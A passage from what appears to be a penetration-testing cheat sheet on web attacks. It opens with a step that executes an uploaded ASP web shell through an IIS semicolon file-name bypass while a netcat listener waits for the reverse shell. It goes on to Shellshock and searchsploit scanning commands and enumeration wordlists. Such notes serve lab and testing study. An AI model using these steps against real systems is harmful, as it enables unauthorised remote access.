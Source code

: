 Execute shell.asp;.txt, make sure to open a nc listener on port 443
```
GET /shell.asp%3b.txt HTTP/1.1
Host: 192.168.1.23


```

### CGI
* Use `/usr/share/seclists/Discovery/Web_Content/cgis.txt` wordlist to find cgi pages.
* `searchsploit apache cgi`
* `nmap --script=http-shellshock --script-args uri=/cgi-bin/test.cgi --script-args uri=/cgi-bin/admin.cgi`

### PHP
```sh
# PHP 5.5.9 search order, edit if necessary, eg. php version, windows?.
searchsploit --colour -t php 5 | grep -v '/dos/\|/windows' | grep -iP '^(php|apache \+ php) (\d|<)'
searchsploit --colour -t php 5.5 | grep -v '/dos/\|/windows' | grep -iP '^(php|apache \+ php) (\d|<)'
searchsploit --colour -t php 5.x | grep -v '/dos/\|/windows' | grep -iP '^(php|apache \+ php) (\d|<)'
```

### HTTP Enumeration Tips

#### Wordlists
* Dirsearch - ~/tools/dirsearch/db/dicc.txt
* DirB - /usr/share/dirb/wordlists/
* wfuzz - /usr/share/wfuzz/wordlist/
* SecList - /usr/share/seclists/
  * /usr/share/seclists/Discovery/Web_Content/
  * /usr/share/seclists/Discovery/Web_Content/common.txt
  * /usr/share/seclists/Discovery/Web_Content/cgis.txt

#### Hardcoded Links
If a website has hardcoded links like "http://pinkdb.com" or "http://172.16.5.5", which you do not have access to, simply an entry like `[actual server ip] [hardcoded value]` (eg. `192.168.1.23 pinkydb.com`) to `/etc/hosts`

#### Apache Directory Default Layouts
https://wiki.apache.org/httpd/DistrosDefaultLayout#Debian.2C_Ubuntu_.28Apache_httpd_2.x.29

#### Host Header
The host-Header tells the webserver which virtual host to use. Sometimes servers may behave differently when the host-header is changed from their IP to their hostname (example.com).

#### Lookout For
* Apache mod_x, as they may be vulnerable
* WebDAV
* CGI
